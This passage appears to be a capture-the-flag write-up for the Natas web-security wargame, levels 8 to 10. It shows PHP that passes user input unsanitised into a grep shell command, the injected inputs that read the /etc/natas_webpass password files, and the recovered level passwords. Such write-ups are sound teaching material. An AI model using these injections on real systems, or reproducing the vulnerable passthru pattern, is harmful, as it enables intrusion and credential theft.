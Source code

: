 ```text
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### natas 9

view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```

No input validation. We can do command injection. lets just add a additional file to grep and search for something that is likely to be in the password.

```text
1 /etc/natas_webpass/natas10
```

```text
Output:

/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### natas10

view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```

now there is some input validation to avoid things like ; \| and &, but our trick from natas09 still works here.

```text
1 /etc/natas_webpass/natas11
```
